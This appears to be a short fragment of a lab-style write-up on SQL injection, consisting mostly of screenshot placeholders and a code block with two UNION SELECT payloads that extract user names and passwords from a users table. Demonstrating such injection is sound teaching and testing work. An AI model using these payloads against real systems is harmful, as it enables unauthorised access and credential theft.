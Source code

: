 output

![alt text](images/photo_12.jpg)

input SQLi

```bash
-1' UNION SELECT user, password FROM users -- -
-1' UNION SELECT user, password FROM users ORDER BY first_name -- ...
```

output

![alt text](images/photo_3.jpg)
